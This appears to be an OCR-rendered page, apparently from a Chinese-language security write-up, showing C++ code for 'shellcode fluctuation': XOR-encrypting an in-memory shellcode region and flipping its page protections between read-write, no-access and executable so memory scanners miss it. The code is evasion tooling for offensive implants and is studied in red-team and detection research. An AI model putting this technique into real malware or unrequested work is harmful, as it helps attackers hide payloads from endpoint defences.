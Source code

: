 
    *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     bool isShellcodeThread(LPVOID address){    MEMORY_BASIC_INFORMATION mbi = { 0 };    if (VirtualQuery(address, &mbi, sizeof(mbi)))    {        //        // To verify whether address belongs to the shellcode's allocation, we can simply        // query for its type. MEM_PRIVATE is an indicator of dynamic allocations such as VirtualAlloc.        //        if (mbi.Type == MEM_PRIVATE)        {            const DWORD expectedProtection = (g_fluctuate == FluctuateToRW) ? PAGE_READWRITE : PAGE_NOACCESS;  
                return ((mbi.Protect & PAGE_EXECUTE_READ)                 || (mbi.Protect & PAGE_EXECUTE_READWRITE)                || (mbi.Protect & expectedProtection));        }    }  
        return false;}  
    

  

    
        加密和解密shellcode：  
    

    *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     void shellcodeEncryptDecrypt(LPVOID callerAddress){    if ((g_fluctuate != NoFluctuation) && g_fluctuationData.shellcodeAddr != nullptr && g_fluctuationData.shellcodeSize > 0)    {        if (!isShellcodeThread(callerAddress))            return;  
            DWORD oldProt = 0;  
            if (!g_fluctuationData.currentlyEncrypted             || (g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA))        {            ::VirtualProtect(                g_fluctuationData.shellcodeAddr,                g_fluctuationData.shellcodeSize,                PAGE_READWRITE,                &g_fluctuationData.protect            );  
                log("[>] Flipped to RW.");        }                log((g_fluctuationData.currentlyEncrypted) ? "[<] Decoding..." : "[>] Encoding...");  
            xor32(            reinterpret_cast<uint8_t*>(g_fluctuationData.shellcodeAddr),            g_fluctuationData.shellcodeSize,            g_fluctuationData.encodeKey        );  
            if (!g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA)        {            //            // Here we're utilising ORCA666's idea to mark the shellcode as PAGE_NOACCESS instead of PAGE_READWRITE            // and our previously set up vectored exception handler should catch invalid memory access, flip back memory            // protections and resume the execution.            //             // Be sure to check out ORCA666's original implementation here:            //      https://github.com/ORCA666/0x41/blob/main/0x41/HookingLoader.hpp#L285            //  
                ::VirtualProtect(                g_fluctuationData.shellcodeAddr,                g_fluctuationData.shellcodeSize,                PAGE_NOACCESS,                &oldProt            );  
                log("[>] Flipped to No Access.\n");        }        else if (g_fluctuationData.currentlyEncrypted)        {            ::VirtualProtect(                g_fluctuationData.shellcodeAddr,                g_fluctuationData.shellcodeSize,                g_fluctuationData.protect,                &oldProt            );  
                log("[<] Flipped back to RX/RWX.\n");        }  
            g_fluctuationData.currentlyEncrypted = !g_fluctuationData.currentlyEncrypted;    }}
    
        效果：  
    

![]()

  